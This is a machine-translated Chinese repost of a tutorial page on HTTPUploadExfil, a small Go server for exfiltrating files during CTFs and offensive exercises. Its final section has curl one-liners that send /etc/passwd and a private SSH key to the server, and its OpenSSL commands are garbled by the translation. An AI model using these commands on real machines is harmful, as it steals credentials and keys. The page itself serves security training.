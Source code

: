 # HTTPUploadExfil:一个简单的 HTTP 服务器，用于在例如 CTFs 期间过滤文件/数据

> [https://kallinuxtremark . com/httpuploadexfile/](https://kalilinuxtutorials.com/httpuploadexfil/)

[![](img/2f86701cbffe8cb3f115c0aa890b2d40.png)](https://blogger.googleusercontent.com/img/a/AVvXsEjm-sHB9gcnW5mhTAoINNasfz6QmGOXI3vdzTgy2jglgkNBqYPdAdpwZKh78xegbcqMahfDmROtCh2CPlP7Jwjrh-rAcLYOgu6y3-2LmdFub0lsv7khZfbG1J3YqtTioQyjWwJ1xzJkJinM-OicKwlHKoqDIWIe_3jOMmShmzB36OuN_DkbDDekEt1-=s728)

是一个用 Go 编写的(非常)简单的 HTTP 服务器，对于使用 HTTP 从机器上获取文件(和其他信息)非常有用。虽然有许多用例，但它应该用于**低风险进攻场景**(例如，CTFs)。

可以把这想象成`**python3 -m http.server**`，但是是从机器上获取数据，而不是在机器上。

显然，这是一种**非常响亮**而**有些受限**的数据泄露方式。然而，它非常方便，而且比使用 SMB 或 FTP 更容易。如果你正在寻找更优雅的东西，看看，例如，`**dnsteal**`或`**PyExfil**`。

**TL；博士**

*   使用`**go build**`构建工具。
*   在你的机器上运行`**./httpuploadexfil :1337 /home/kali/loot**`。
*   访问您需要从中提取数据的机器上的`**http://YOUR_IP:1337/**`。
*   在`**/home/kali/loot**`中找到您上传的文件。

如果需要 HTTPs，看下面的信息。

**建设和发展**

虽然有可用的二进制文件，但绝对建议**在自己的**上构建它。这样，您将拥有最新的版本，并且您也将确切地知道您正在运行什么。这个过程很简单:

只需在文件夹中运行`**go build**`，您应该会得到一个适用于您的平台的`**httpuploadexfil**`可执行文件。

如果您对工具进行了更改，请记住使用 **`go fmt main.go`进行格式化。**

**用法**

最常见的用例是在一台机器上运行服务器。现在，在*机器 B* 上，您使用浏览器访问上传表单，并选择要导出的文件。当然，正如您在下面看到的，这也可以通过使用`**curl**`来完成。

除了上传文件，您还可以使用简单的 GET 请求使用`**HTTPUploadExfil**`来过滤数据。如果一个请求被发送到`**\g**`端点，整个请求将被存储到磁盘。

因此，您可以使用请求的报头来过滤数据。使用 GET 参数(例如`**?data=...**`)是最简单的，但是还有其他选项。

![](img/ae9d32a58da00bc23bdc8abf1f4c036d.png)

默认情况下，`**HTTPUploadExfil**`将在端口 8080 上提供服务。所有文件都将被写入当前目录。

`**./httpuploadexfil**`

您还可以提供一些参数:

`**./httpuploadexfil :133**7 **/home/kali/loot**`

第一个参数是绑定地址，第二个参数是存储文件的文件夹。

该工具还会在端点`**/l**`下暴露 loot 目录中的文件。这可以作为将文件带到目标上的一种简单方法。

**终点**

web 服务器公开了四个端点供您使用:

*   `**/**` (GET)是上传表单。
*   `**/p**` (POST)从上传表单中获取数据。它需要一个填充了`**file**`字段的`**multipart/form-data**`请求。
*   `**/g**` (GET)将接受任何 GET 请求，并将完整的请求存储在服务器上。
*   `**/l**` (GET)将提供对指定文件夹中文件的访问(目录列表)。这是为了提供基本的`**python3 -m** **http.server**`功能。

**HTTPs 模式**

`**HTTPUploadExfil**`也可以在 HTTPs 模式下使用。为此，只需在二进制文件旁边放置一个`**HTTPUploadExfil.csr**`和`**HTTPUploadExfil.key**`文件。例如，这些可以如下生成:

**OpenSSL req-new-new key RSA:2048-nodes-key out httpuploadexfil . key-out httpuploadexfil . CSR
OpenSSL x509-req-days 365-in httpuploadexfil . CSR-sign key httpuploadexfil . key-out httpuploadexfil . CSR**

如果服务器看到一个`**HTTPUploadExfil.csr**`文件，它将尝试以 HTTPs 模式启动。要返回 HTTP，只需删除或重命名证书文件。

**炮弹**

使用`**Bash**`，我们可以使用 GET via 来导出数据，例如:

`**echo "data=`cat /etc/passwd`" | curl -d @- http://127.0.0.1:8080/g**`

当然，我们也可以使用`**cur**l`来导出文件:

`**curl -F file=@/home/kali/.ssh/id_rsa http://127.0.0.1:8080/p**`

[**Download**](https://github.com/IngoKl/HTTPUploadExfil)